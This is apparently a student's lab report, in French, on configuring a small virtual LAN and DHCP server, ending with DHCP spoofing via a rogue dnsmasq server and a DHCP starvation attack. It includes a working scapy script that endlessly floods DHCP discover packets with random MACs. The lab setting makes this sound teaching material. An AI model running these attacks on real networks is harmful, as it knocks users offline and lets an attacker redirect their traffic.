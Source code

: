 **1. Configuration d'un réseau local simple
Trouver les adresses MAC des machines
Pour vérifier l'adresse MAC de chaque machine :**

```PC1> show ip```
```
NAME        : PC1[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:00
LPORT       : 20002
RHOST:PORT  : 127.0.0.1:20003
MTU         : 1500
```
*Adresse MAC de PC1 : 00:50:79:66:68:00*


```PC2> show ip```

```
NAME        : PC2[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:01
LPORT       : 20004
RHOST:PORT  : 127.0.0.1:20005
MTU         : 1500
```
*Adresse MAC de PC2 : 00:50:79:66:68:01*

**Attribuer des adresses IP manuellement
Pour donner une IP à chaque machine :**

```PC1> ip 10.1.1.1/24```
```
Checking for duplicate address...
PC1 : 10.1.1.1 255.255.255.0
```

```PC2> ip 10.1.1.2/24```
```
Checking for duplicate address...
PC2 : 10.1.1.2 255.255.255.0
```
**Tester la communication entre les machines
Avec la commande ping :**

```PC1> ping 10.1.1.2```
```
84 bytes from 10.1.1.2 icmp_seq=1 ttl=64 time=0.302 ms
84 bytes from 10.1.1.2 icmp_seq=2 ttl=64 time=1.539 ms
84 bytes from 10.1.1.2 icmp_seq=3 ttl=64 time=1.405 ms
84 bytes from 10.1.1.2 icmp_seq=4 ttl=64 time=1.170 ms
84 bytes from 10.1.1.2 icmp_seq=5 ttl=64 time=0.281 ms
```

```PC2> ping 10.1.1.1```
```
84 bytes from 10.1.1.1 icmp_seq=1 ttl=64 time=0.185 ms
84 bytes from 10.1.1.1 icmp_seq=2 ttl=64 time=0.165 ms
84 bytes from 10.1.1.1 icmp_seq=3 ttl=64 time=0.367 ms
84 bytes from 10.1.1.1 icmp_seq=4 ttl=64 time=0.606 ms
84 bytes from 10.1.1.1 icmp_seq=5 ttl=64 time=0.453 ms
```

**Vérifier les adresses avec ARP**

```PC1> arp ```         
```
00:50:79:66:68:01  10.1.1.2 expires in 108 seconds
```

```PC2> arp```
``` 
00:50:79:66:68:00  10.1.1.1 expires in 106 seconds
```

**2. Ajouter un switch et une troisième machine**

```PC3> ip 10.1.1.3```
```
Checking for duplicate address...
PC3 : 10.1.1.3 255.255.255.0
```

**3. Installer un serveur DHCP**

**Donner un accès Internet à la machine dhcp.tp1.efrei**
```
[toto@efrei-xmg4agau1 ~]$ ping google.com
PING google.com (216.58.214.174) 56(84) bytes of data.
64 bytes from mad01s26-in-f174.1e100.net (216.58.214.174): icmp_seq q = 1 ttl I = 63 time 37.0 ms
64 bytes from par10s42-in-f14.1e100.net (216.58.214.174): icmp_seq=2 ttl I = 63 time=29.4 ms
```

**Installer et configurer un serveur DHCP**


je me suis aidé de ce tuto https://gitlab.com/it4lik/b2-network-virt/-/blob/main/memo/rocky_network.md
```
dnf-y install dhcp-server
vi /etc/dhcp/dhcpd.conf
systemctl enable --now dhcpd
```

```
authoritative;
subnet 10.1.1.0 netmask 255.255.255.0 {
	range 10.1.1.10 10.1.1.50;
	option broadcast-address 10.1.1.1;
	option routers 10.1.1.1;
}
```
**Récupérer une IP automatiquement depuis les 3 nodes**

```
PC1> dhcp
DORA IP 10.1.1.10/24 GW 10.1.1.1

PC1> show ip

NAME        : PC1[1]
IP/MASK     : 10.1.1.10/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 563, 570/285/498
MAC         : 00:50:79:66:68:01
LPORT       : 20007
RHOST:PORT  : 127.0.0.1:20008
MTU         : 1500
```

```
PC2> dhcp
DDORA IP 10.1.1.12/24 GW 10.1.1.1

PC2> show ip

NAME        : PC2[1]
IP/MASK     : 10.1.1.12/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 594, 599/299/524
MAC         : 00:50:79:66:68:00
LPORT       : 20009
RHOST:PORT  : 127.0.0.1:20010
MTU         : 1500
```

```
PC3> dhcp
DDORA IP 10.1.1.11/24 GW 10.1.1.1

PC3> show ip

NAME        : PC3[1]
IP/MASK     : 10.1.1.11/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 584, 599/299/524
MAC         : 00:50:79:66:68:02
LPORT       : 20011
RHOST:PORT  : 127.0.0.1:20012
MTU         : 1500
```


**4 DHCP spoofing**

Installation de dnsmasq

```
dnf install -y dnsmasq
```

Configuration de dnsmasq

```
port=0 # pour désactiver DNS
dhcp-range=10.1.1.210,10.1.1.250,255.255.255.0,12h
dhcp-authoritative
interface=enp0s3
```
**TEST**
```
PC4> dhcp
DDORA IP 10.1.1.248/24 GW 10.1.1.50
```

```
PC4> show ip

NAME        : PC4[1]
IP/MASK     : 10.1.1.248/24
```
```
PC2> dhcp
DDORA IP 10.1.1.246/24 GW 10.1.1.50
```
```
PC3> dhcp
DDORA IP 10.1.1.247/24 GW 10.1.1.50
```
```
PC4> dhcp
DORA IP 10.1.1.21/24 GW 10.1.1.1
```

**5 DHCP starvation**

*je vais utilisier le script de cette video*  https://www.youtube.com/watch?v=VW0szfPHeo0&ab_channel=DavidBombal

```
from scapy.all import *

conf.checkIPaddr = False

dhcp_discover = Ether(dst='ff:ff:ff:ff:ff:ff',src=RandMAC()) \
				/IP(src='0.0.0.0',dst='255.255.255.255') \
				/UDP(sport=68,dport=67) \
				/BOOTP(op=1,chaddr = RandMAC()) \
				/DHCP(options=[('message-type','discover'),('end')])

sendp(dhcp_discover,iface='wlp4s0',loop=1,verbose=1)
```
**Effet de l'attaque**
Après avoir lancé le script :
•	Le serveur DHCP est à court d'adresses disponibles :

```DHCPDISCOVER from 64:38:3a:61:38:3a via enp0s3 network 10.1.1.0/24: no free leases ```

•	Les machines ne peuvent plus obtenir d’IP avec dhcp.
